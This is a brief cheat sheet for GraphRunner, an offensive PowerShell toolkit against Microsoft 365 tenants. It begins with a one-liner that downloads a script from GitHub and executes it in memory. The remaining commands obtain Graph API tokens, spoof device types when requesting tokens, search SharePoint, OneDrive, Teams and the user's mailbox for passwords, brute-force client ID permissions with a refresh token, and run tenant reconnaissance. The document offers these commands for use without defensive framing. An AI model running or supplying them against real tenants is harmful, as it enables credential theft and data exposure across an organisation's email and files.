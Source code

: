 # GraphRunner

## Command to execute: 

    IEX (iwr 'https://raw.githubusercontent.com/dafthack/GraphRunner/main/GraphRunner.ps1') | iex

### Commands:

#### 1) Lists all modules of graphrunner

    List-GraphRunnerModules

#### 2) Authenticate with valid credentials to open a graph API session

    Get-GraphTokens -UserPasswordAuth 

#### 3) Search for files on OneDrive and Sharepoint containing the string "password" by using the tokens we dumped from the Graph API session

    Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password' 

#### 4) Search all Teams channels with the specific term that are readable by our user

    Invoke-SearchTeams -Tokens $tokens -SearchTerm password 

#### 5) Searches the mailbox of our current user

    Invoke-SearchMailbox -Tokens $tokens -SearchTerm "password" -MessageCount 40

#### 6) Emulates other devices when requesting tokens
   
    Get-GraphTokens -Device AndroidMobile -Browser Android 

#### 7) Check for non-default permissions that our user might have

    Invoke-BruteClientIDAccess -domain DOMAIN.LOCAL -refreshToken $tokens.refresh_token 

#### 8) Perform recon on the tenant

    Invoke-GraphRecon -Tokens $tokens 



